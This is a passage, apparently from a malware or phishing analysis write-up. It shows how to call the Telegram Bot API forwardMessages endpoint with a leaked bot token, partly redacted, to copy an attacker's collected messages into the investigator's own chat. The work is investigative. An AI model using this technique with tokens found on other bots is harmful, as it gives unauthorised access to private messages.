 We can send messages to the bot now.

![image.png](assets/chat.png)

Let's start forwarding messages to our chat.
```
https://api.telegram.org/bot7035...[REDACTED]...doiaoaGBMcy4/forwardMessages?from_chat_id=69...[REDACTED]...141&message_ids=[1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25]&chat_id=xxxxxxxxxx
```
In this request, we used: 
* `7035...[REDACTED]...doiaoaGBMcy4/` is bot token
* `69...[REDACTED]...141` is the attacker's ID to forward messages from (source id)
* `xxxxxxxxxx` is the personal account ID to forward to
* `[1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25]` are the IDs of the first 25  messages, we will try forwarding them first

Once we send the request, the messages will be successfully forwarded to us. 